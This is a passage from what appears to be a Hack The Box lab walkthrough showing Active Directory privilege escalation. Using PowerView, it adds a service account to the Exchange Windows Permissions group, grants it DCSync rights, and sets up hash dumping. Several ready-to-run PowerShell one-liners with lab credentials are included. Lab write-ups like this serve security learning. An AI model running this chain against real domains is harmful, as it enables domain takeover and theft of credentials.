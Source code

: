 ![](images/Pasted%20image%2020240924094741.png)

This gives a full background as to how to abuse this, and if I scroll down, I see an example:
`Add-DomainGroupMember -Identity 'Domain Admins' -Members 'harmj0y' -Credential $Cred`
or
`net group "Exchange Windows Permissions" svc-alfresco /add /domain`

In this place, we need to upload the `PowerView.ps1` and import it 
`Import-Module .\PowerView.ps1`

Now I’ll use the fact that members of the Exchange Windows Permissions group have WriteDacl on the domain. Again, looking at the help, it shows commands I can run:
```
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLABdfm.a', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity testlab.local -Rights DCSync
```

Once I do that, I can run a DCSync attack, either with Mimikatz locally, or with secretsdump.py from my Kali box, since DCSync only requires access to TCP 445, TCP 135, and a TCP RPC port (49XXX).

I’ll create a one-liner to run locally. I don’t need to pass credentials to the first command, because I’m already running as a user with those rights. I did have to pass credentials to the second command. My best guess is that the session doesn’t know yet about my being in the new group from the first command, and that passing credentials refreshes that.
```
Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members svc-alfresco; $username = "htb\svc-alfresco"; $password = "s3rvice"; $secstr = New-Object -TypeName System.Security.SecureString; $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}; $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr; Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
```
